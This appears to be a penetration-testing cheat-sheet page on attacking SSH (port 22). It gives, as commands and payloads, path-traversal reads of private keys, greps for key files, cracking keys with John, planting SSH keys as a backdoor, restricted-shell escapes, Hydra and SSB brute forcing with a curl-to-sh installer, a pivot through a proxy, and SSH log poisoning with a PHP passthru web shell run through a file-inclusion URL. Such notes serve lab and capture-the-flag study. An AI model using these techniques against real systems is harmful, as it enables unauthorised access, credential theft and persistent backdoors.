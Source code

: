 ```yaml
---
layout: default
title: SSH
parent: TCP
nav_order: 4-2
---
```

# SSH | 22
## Methodology
- Do you have alid credentials?
- Do you have real system-level users in which to access SSH with?
- ALWAYS check for user password re-use
- Dealing with id_rsa files - ALWAYS chmod 600 id_rsa
- Collect user SSH keys if able to read: "id_rsa" e.g. somefile.php?file=../../../../home/user/.ssh/id_rsa
- If able to write, drop a SSH key into the user or root directory for login (/root/.ssh/id_rsa)
- Are you able to read the SSH logs (SSH Log Poisoning): /var/log/auth.log

#### Restrictive Shell
If you have access to the <i>echo</i> command it is possible to use the built-in API to break out:
``` echo os.system("/bin/bash")```
Break out of <b> RBash </b>:
``` ssh restricted@$IP -p 31678 -t "bash --noprofile" ```
OR
```ssh user@$IP "/bin/sh"```

#### Check the following locations for private keys:
<ul>
<li>/home/* </li>
<li>/root/.ssh/* </li>
<li>/etc/ssh/ssh_config</li>
<li> /etc/ssh/sshd/ssh_config</li>
<li> ~/.ssh/*</li>
</ul>

#### Identify the host for the private key:
Check the following locations:
<ul>
<li> /etc/hosts </li>
<li> ~/.known_hosts </li>
<li> ~/.bash_history </li>
<li> ~/.ssh/config </li>
</ul>

#### Command Reference
<b> Search for files containing SSH Keys:</b>
```grep -ir "-----BEGIN RSA PRIVATE KEY-----" /home/*```
```grep -ir "BEGIN DSA PRIVATE KEY" /*```
<b> SSH with id_rsa </b>
``` ssh -i id_rsa user@$IP ```
<b> Crack id_rsa with John (SSH2John) </b>
``` ssh2john id_rsa > crackthis
john crackthis --wordlist=/usr/share/wordlists/rockyou.txt```
<b> SSH Keygen & Back Door (post exploitation) </b>
Generate a new SSH key pair with:
```ssh-keygen -b 2048 -t rsa -f ~/.ssh/new-key-name
chmod 600 new-key-name```
Drop the 'new-key-name.pub' file into the target /home/usr/.ssh directory.
Connect with:
```ssh -i new-key-name user@$IP```

### Tools
- <a href="https://github.com/pwnesia/ssb"> Secure Shell Bruteforcer (SSB) </a>
```curl -sSfL 'https://git.io/kitabisa-ssb' | sh -s -- -b /usr/local/bin ```
```ssb [-p port] [-w wordlist.txt] [-t timeout]
      [-c concurrent] [-r retries] [-o output] [user@]hostname```

#### SSH Log Poisoning
RCE via SSH Log Poisoning:
Example PHP web server (capable of viewing the logs):
- Enter something like: ```testlogpoisoning/<?php passthru($_GET['cmd']); ?>``` 
- Refresh the accessible log page - find the newest entry (towards the bottom) and you may see the characters 'testlogpoisoning/'
> this verifies command execution after the format '/' providing executive authority over the machine
``` https://example.com/somefile.php?file=../../../../var/log/auth.log&cmd=id ```
> reopen the file, scroll down and find the results of the command printed


#### SSH Brute Force
- Hydra
``` hydra -V -L UserList -P PasswordList ssh://$IP ```
- SSB

#### SSH 'should' be running?
- Is there a HTTP proxy on the server? SSH may be running but not open to the world - instead of on 0.0.0.0, it may be local on 127.0.0.1
- If this is the case, it is possible to forward out the loopback address with <b> proxytunnel </b>
``` proxytunnel -p $IP:3128 -d 127.0.0.1:22 -a 4444 ```
> Spawn a daemon on our attacking machine (accessible on 4444)
``` ssh user@127.0.0.1 -p 4444 ```

###### [REFERENCES]
<a href="https://highon.coffee/blog/ssh-lateral-movement-cheat-sheet/#what-is-a-lateral-movement"> SSH Lateral Movement Cheatsheet </a>
